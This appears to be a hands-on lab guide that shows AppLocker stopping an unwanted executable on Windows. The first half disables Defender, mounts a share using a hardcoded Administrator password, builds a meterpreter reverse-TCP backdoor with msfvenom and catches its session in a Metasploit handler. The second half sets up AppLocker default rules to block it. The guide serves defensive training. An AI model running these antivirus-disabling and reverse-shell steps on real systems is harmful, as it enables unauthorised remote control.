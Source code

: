 
# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of Windows **Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

`Set-MpPreference -DisableRealtimeMonitoring $true`

![](attachments/applocker_disabledefender.png)

This will disable Defender for this session.

If you get angry red errors, that is ==**Ok**==, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

`sudo su -`

Next, lets run the following command to get our IP address:

`ifconfig`

==**Please note the IP address of Y-O-U-R Ethernet adapter.**==

![](attachments/applocker_ifconfig.png)

Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"** Your IP Address and adapter name may be different.

First, we need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

Note: The IP address of `10.10.1.209` does not need to be changed in this command.

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 
-f exe -o /mnt/windows-share/TrustMe.exe</pre>

Now let's start the **Metasploit Handler**.  First, open a new Kali instance. The easiest way to do this is by clickin on the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The Metasploit Handler successfully ran if the terminal now starts with `msf6 >`

Next, let's run the following:
<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, your IP will be different!

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png) 

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your Kali terminal, you should now have a metasploit session!

![](attachments/meterpretersession.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/localsecuritypolicy.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/localsecpolicywindow.png)



Scroll down in the right hand pane. You will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/rulesoverview.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

Next, we need to enforce the rules:


To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/ruleenforcement.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  

![](attachments/services.png)

This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/applicationidentity.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/startservice.png)

Next, open a command prompt and run gpupdate to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run TrustMe.exe as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is `adhd`

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!







